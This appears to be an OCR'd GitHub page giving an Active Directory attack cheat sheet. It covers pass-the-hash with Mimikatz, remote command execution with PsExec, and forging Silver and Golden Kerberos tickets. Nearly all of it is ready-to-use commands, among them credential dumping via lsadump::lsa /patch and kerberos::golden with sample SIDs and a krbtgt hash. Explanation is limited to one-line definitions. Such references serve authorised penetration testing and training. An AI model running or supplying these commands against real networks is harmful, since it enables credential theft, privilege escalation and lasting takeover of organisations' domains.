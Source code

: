 ```cmd
mimikatz.exe "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm.hash> /run:PowerShell.exe" "exit"
```

   Command execution with psexec  
``` cmd
.\PsExec.exe \\<hostname> cmd.exe
```

### Silver Ticket - Pass the Ticket

It is a persistence and elevation of privilege technique in which a TGS is forged to gain access to a service in an application.
  Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
  Get Machine Account Hash
```
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
``` 
 - Exploitation
``` mimikatz
kerberos::purge
kerberos::list
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /target:<hostname.domain> /service:HTTP /rc4:<ervice_account_password_hash> /ptt
```
or
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
kerberos::list
```

### Golden Ticket - Pass the Ticket

It is a persistence and elevation of privilege technique where tickets are forged to take control of the Active Directory Key Distribution Service (KRBTGT) account and issue TGT's.
  Get hash krbtgt
```
./mimikatz.exe "privilege::debug" "lsadump::lsa /patch"
```
  Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
- Exploitation
``` mimikatz
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd

psexec.exe \\dc1 cmd.exe
```
